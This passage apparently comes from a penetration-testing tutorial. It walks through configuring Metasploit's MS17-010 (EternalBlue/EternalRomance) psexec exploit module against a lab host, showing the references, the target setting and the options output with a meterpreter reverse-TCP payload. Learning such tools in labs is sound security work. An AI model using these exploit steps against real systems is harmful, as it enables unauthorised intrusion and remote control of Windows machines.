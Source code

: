 ```shell-session
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE
```

After we are satisfied that the selected module is the right one for our purpose, we need to set some specifications to customize the module to use it successfully against our target host, such as setting the target (`RHOST` or `RHOSTS`).

#### MSF - Target Specification

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                                           no        The service display name
   SERVICE_NAME                                                   no        The service name
   SHARE                 ADMIN$                                   yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a no
                                                                            rmal read/write folder share
   SMBDomain             .                                        no        The Windows domain to use for authentication
   SMBPass                                                        no        The password for the specified username
   SMBUser                                                        no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
```